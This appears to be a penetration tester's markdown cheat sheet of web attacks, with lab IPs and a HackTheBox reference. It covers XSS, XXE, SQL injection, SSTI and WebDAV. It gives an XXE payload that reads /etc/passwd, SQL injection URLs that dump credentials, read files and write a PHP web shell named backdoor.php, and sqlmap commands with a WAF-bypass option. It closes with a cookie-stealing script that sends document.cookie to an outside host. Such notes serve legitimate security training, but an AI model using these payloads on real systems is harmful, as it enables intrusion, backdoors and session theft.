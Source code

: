 # Cross Site Scripting (XSS)
:information_source: https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)
:information_source: https://www.scip.ch/en/?labs.20171214 
:information_source: https://xss-game.appspot.com/
:information_source: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
:information_source: https://github.com/payloadbox/xss-payload-list
:information_source: https://tryhackme.com/room/learnowaspzap

# XML External Entities (XXE)
Basic idea: upload an xml to test if it gets parsed and then abusing the doctype definition (DTD).

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

# SQL Injection
## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
* https://github.com/payloadbox/sql-injection-payload-list

## Manual Enumeration
```
http://10.10.10.10/debug.php?id=1 order by 1 # increase until an error occurs to get number of columns

http://10.10.10.10/debug.php?id=1 union all select 1, 2, 3
http://10.10.10.10/debug.php?id=1 union all select 1, username, password
http://10.10.10.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
http://10.10.10.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

## sqlmap
* example commands
```
sqlmap --url http://10.10.128.77:8000/sqlpanel --tables --columns
sqlmap -r sqlpanel.request --dbms=sqlite --dump-all --tamper=space2comment
```
* capture sqlpane.request with burpsuite first
* --tamper=space2comment for trying to bypass WAF

# Server Side Template Injection (SSTI)
Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side

* See https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
* Payload Generator: https://github.com/VikasVarshney/ssti-payload

Make sure to try every syntax
```
*{}
${}
#{}
```

# WebDAV
WebDAV is an extenstion of HTTP that allows clients to perform remote Web content authoring operations. RFC4918.

## Resources
* [Blogpost from Nullbyte](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)
* HackTheBox: Granny 

## davtest
DAVTest tests WebDAV enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target.
```
davtest -url http://10.10.10.15
```

## cadaver
Cadaver is a simple command-line client, similar to for example the 'ftp' program. It has some advanced features such as lock-management, property management, DASL and version control support.
```
cadaver http://10.10.10.15/mfu
```

# Cookie Stealer
```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

See Github Repo 'Redline'
